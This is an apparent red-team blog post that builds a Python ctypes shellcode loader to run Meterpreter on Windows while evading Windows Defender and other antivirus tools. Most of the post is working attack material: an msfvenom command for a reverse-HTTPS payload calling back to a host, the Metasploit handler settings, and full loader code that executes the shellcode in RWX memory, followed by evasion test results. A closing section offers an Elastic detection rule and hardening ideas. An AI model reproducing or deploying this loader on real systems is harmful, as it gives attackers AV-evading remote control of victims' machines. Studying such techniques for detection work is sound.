






2025-05-17
This is the first blog post in a series where we will develop and improve a Python shellcode loader. We will explore possible defenses against it and possible ways around them.
Running shellcode from any of the major open-source C2 frameworks has become increasingly difficult in recent years. AVs and EDRs are much more advanced than they were 10 years ago, with capabilities that go beyond fixed signature checks, behavior-based heuristics now play a major role. In my daily job as a red team consultant, I frequently face blue teams of varying skill levels, detection capabilities and infrastructure, so creative solutions for bypassing their defenses are a must in order to run my desired tools.
C is my preferred language for malware and offensive tool creation, but I’m also a lazy hacker, fancy evasion techniques like early-cascade-injection or threadless-injection are great when needed, but often, they’re not required when facing a client with an immature blue team or a client without a proper EDR.
Equally important, there’s always a risk of triggering an alert despite thorough testing and implemented evasion techniques. A motivated blue teamer reversing your implants can easily render hours of development useless. Sometimes, it’s better to use “cheaper” tools, if they get the job done.
In this blog post, I’ll explain a simple technique to run meterpreter shellcode while evading Windows Defender and other AVs. We will explore how defenders can setup detections against this type of attack and explore possible mitigations.**
This post will not touch techniques used to deliver malware to endpoints, basics about C2 frameworks, shellcode or general redteam methodology.
So who is this blog post for? For infosec beginners and enthusiasts looking to broaden their knowledge on basic AV evasion and C2 framework usage. Defenders trying to improve their offensive knowledge to develop better detection use-cases or also seasoned infosec professionals looking for some inspiration for the next client project.
The Meterpreter shellcode was created as follows and uses mostly default settings. LURI and HTTPUSERAGENT were specified to pass through my redirector and reach the Metasploit multi/handler.
msfvenom -p windows/x64/meterpreter_reverse_https \
LHOST=example.com \
LPORT=443 \
LURI=/api/v1/data/ \
HTTPUSERAGENT="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.3240.76" \
-f pythonThe -f python generates the shellcode as hex string for python. If we wanted to use the shellcode in C we would just change it to -f C.
We configure a listener that does not automatically load the stdapi and does not execute the sysinfo command on startup. This helps to make the shellcode less likely to be detected when executed.
use multi/handler
set payload windows/x64/meterpreter_reverse_http
set luri /api/v1/data/
set lhost 0.0.0.0
set autoloadstdapi false
set autosysteminfo false
set exitonsession false
run -jWhen starting this I wanted to use the most simplistic shellcode loader I could find. Nothing special, just allocate memory in the current process, write shellcode into allocated memory and execute.
A quick Google search led me to this loader code written over 11 years ago, perfect to get started.
 Screenshot of the DllMainThread.c loader from Github
Screenshot of the DllMainThread.c loader from Github
I compiled and executed the basic loader as a DLL using rundll32.exe with my unmodified meterpreter shellcode. As expected, Windows Defender immediately flagged and blocked the execution. This confirms the need for evasion improvements before the shellcode can be used in a red team engagement.
 Execution was detected prevented by Defender  Defender detected “HackTool:Win32/Meterpreter.A!dll”
By 2025, most well-known methods for executing shellcode on Windows are heavily signatured and well detected. When looking for easy ways to bypass those detections, many malware developers have turned to a technique called BYOE or Bring-your-own-environment. Basically, the idea is to bring an environment the detection engine is not used to or has only limited visibility into. Examples include Qemu, NodeJS or even Matlab. I chose Python since I feel comfortable writing Python code and I would like to have quick results.
I took the loader code I found on Github above and translated it into Python with a little help from ChatGPT. The ctypes library allows us to interact with the same Win32 API endpoints as if we were using C.
import ctypes
import threading
from ctypes import wintypes
MEM_COMMIT = 0x1000
PAGE_EXECUTE_READWRITE = 0x40
buf = b""
buf += b"\x4d\x5a\x41\x52\x55\x48\x89\xe5\x48\x83\xec\x20"
[...]
buf += b"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
buf += b"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
buf += b"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
buf += b"\xff\xff\xff\xff"
# Define functions from kernerl32.dll
kernel32 = ctypes.windll.kernel32
kernel32.GetCurrentProcess.restype = wintypes.HANDLE
kernel32.VirtualAllocEx.argtypes = [wintypes.HANDLE, wintypes.LPVOID, ctypes.c_size_t, wintypes.DWORD, wintypes.DWORD]
kernel32.VirtualAllocEx.restype = wintypes.LPVOID
kernel32.WriteProcessMemory.argtypes = [wintypes.HANDLE, wintypes.LPVOID, wintypes.LPCVOID, ctypes.c_size_t, ctypes.POINTER(ctypes.c_size_t)]
kernel32.WriteProcessMemory.restype = wintypes.BOOL
def ThreadFunction(lpParameter):
current_process = kernel32.GetCurrentProcess()
# Allocate memory with `VirtualAllocEx`
sc_memory = kernel32.VirtualAllocEx(current_process, None, len(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE)
bytes_written = ctypes.c_size_t(0)
# Copy raw shellcode with `WriteProcessMemory`
kernel32.WriteProcessMemory(current_process, sc_memory,ctypes.c_char_p(buf),len(buf),ctypes.byref(bytes_written))
# Execute shellcode in memory by casting the address to a function pointer with `CFUNCTYPE`
shell_func = ctypes.CFUNCTYPE(None)(sc_memory)
shell_func()
return 1
def Run():
thread = threading.Thread(target=ThreadFunction, args=(None,))
thread.start()
if __name__ == "__main__":
Run()After embedding the previously generated shellcode as a hex string into the loader code, I uploaded the file to VirusTotal, and to my surprise, it came back completely clean.
For clarity, uploading payloads to VirusTotal is something I typically do not do and that I strongly advice against, since doing so makes the sample accessible to analysts who can download it generate detection rules for it.
 Static analysis of the python code containing the shellcode buffer raised no alerts in virustotal
I executed the loader and immediately received a meterpreter session in my backend. The alert we previously encountered was gone despite executing the same piece of shellcode.
Demo: Executing the loader and running commands in the newly established meterpreter session
I packed the Python loader into an executable using pyinstaller and ran it through a quick test. I used a mix of free antivirus products and one EDR.
For each security solution, I tested both the raw loader.py executed via python.exe and the packed loader.exe version generated with pyinstaller.
The results were surprising: only 1 out of 8 tools actually stopped the loader from running. Bitdefender was the only one that blocked it completely. The others either missed it entirely or only blocked the executable.
 The table shows that python.exe+loader.py is only detected by Bitdefender
This was unexpected. Based on how the loader works and the fact that py2exe leaves many artifacts in the binary, I anticipated a much worse outcome, full detection (all red) for the .exe version, and at least partial detection for running loader.py with python.exe.
 Lots of meterpreter sessions arrived. 127.0.0.1 is the source IP because the redirector is deployed on the same machine. This should be fixed by adding the X-Forwarded-for header in the redirecrtor config
Bring-your-own-environment (BYOE) techniques can work in poorly secured environments, but they depend on weaknesses that basic hardening can block. The following strategies can help prevent or disrupt their use:
python.exe.Note: Many EDRs come with the following or some of the following use-cases pre-installed.
In Elastic EDR’s default configuration, options are limited because ETW and Sysmon data are not ingested. However, with a creative approach, it is still possible to create a reliable detection rule for the loader with a low false positive rate.
(
process.executable.text : "\\users"
or
process.executable.text: "\\windows\\temp"
) and
dll.name: "_ctypes.pyd"This rule checks for executables running from user-writable paths that load the _ctypes.pyd library. The filename is not included in the condition, as it can be easily changed. Signature checking for the Python binary (signed by “Python Software Foundation”) could be useful, but would exclude binaries created with py2exe or PyInstaller.
The rule successfully detected the loader in both forms: as a compiled executable and as a script executed with python.exe. Alerts were generated in Elastic SIEM for both.
 Screenshot of the alerts for our python loader in an elastic siem
There is room for improvement. The shellcode may trigger additional behaviors like DNS resolution or network activity, which could be used to further refine detection. For now, this rule provides a solid starting point.
This loader is far from being perfect or stealthy in many ways. So let’s think about what could and should be improved. Some ideas: This loader works, but it is far from stealthy or production-ready. To make it more effective in real-world scenarios, we need to start thinking like defenders and work on improving both evasion and flexibility. Here are several ideas we will try to explore in the next blog post:
python.exe, consider injecting into a remote process to reduce the detection footprintpy2exe or PyInstaller) might simplify deployment, but these tools have historically triggered alertsWhile the same execution technique caused alerts when implemented in C, running it in Python using the ctypes library, slipped past detections. Even in 2025, it is still relatively easy to build shellcode loaders and other offensive tooling that evade Windows Defender and other free AVs.
This loader is only detected and stopped by Bitdefender of all the solutions I tested against. Likely there are various non-free EDRs that detect this by hooking the right API calls or checking the right kernel callbacks but those were not tested here.
On the defensive side, we developed a custom detection rule for Elastic EDR which did not pick it up before and found a reliable way to catch this behavior, proving that even open-source tools can keep up with BYOE techniques when tuned properly.
In the next post, we will try to implement some of the improvements listed above and see how much we can improve the loader.
Cheers 🫡
Disclaimer: This blog post is intended for educational and research purposes only. All techniques and code examples are provided to help defenders understand offensive tradecraft and improve security posture. Do not use this information to access or interfere with systems you do not own or have explicit permission to test. Unauthorized use may violate laws and ethical guidelines. The author assumes no responsibility for any misuse or damage resulting from applying the concepts discussed.